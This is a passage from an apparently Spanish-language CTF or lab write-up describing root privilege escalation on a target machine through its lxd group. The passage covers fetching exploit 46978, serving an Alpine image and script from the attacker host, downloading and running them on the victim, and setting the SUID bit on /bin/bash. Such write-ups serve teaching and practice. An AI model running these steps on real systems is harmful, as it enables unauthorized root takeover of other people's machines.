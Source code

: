 ## Privilege Escalation {-}

### Rootear la maquina {-}

```bash
whoami
id
```

En este punto vemos que el usuario xalvas esta en el grupo **lxd** y ya tenemos la possibilidad de escalar privilegios con esto.

```bash
searchsploit lxd
searchsploit -x 46978
```

Si Si el exploit a sido creado por el mismo S4vitar. Para usar el exploit, lo primero es mirar si estamos en una maquina 32 o 64 bits.

```bash
uname -a
```

Seguimos los passos del exploit

1. En la maquina de attaquante

    ```bash
    wget https://raw.githubusercontent.com/saghul/lxd-alpine-builder/master/build-alpine
    chmod +x build-alpine
    ./build-alpine # --> para maquinas x64
    ./build-alpine -a i686 # --> para maquinas i686
    searchsploit -m 46978
    mv 46978.sh lxd_privesc.sh
    dos2unix lxd_privesc.sh
    python3 -m http.server 80
    ```

1. En la maquina victima

    ```bash
    wget http://10.10.14.20/alpine-v3-14-i686-20210728_2134.tar.gz
    wget http://10.10.14.20/lxd_privesc.sh
    chmod +x lxd_privesc.sh
    ./lxd_privesc.sh -f alpine-v3-14-i686-20210728_2134.tar.gz
    ```

1. vemos un error `error: This must be run as root`. Modificamos el fichero lxd_privesc.sh

    ```bash
    nano lxd_privesc.sh
    ```

    en la function createContainer(), borramos la primera linea:
    
    ```bash
    # lxc image import $filename --alias alpine && lxd init --auto
    ```

1. Ya estamos root pero en el contenedor. Modificamos la `/bin/bash` de la maquina

    - en el contenedor

        ```bash
        cd /mnt/root
        ls
        cd /bin
        chmod 4755 bash
        exit
        ```

    - en la maquina victima

        ```bash
        bash -p
        whoami
        #Output
        root
        ```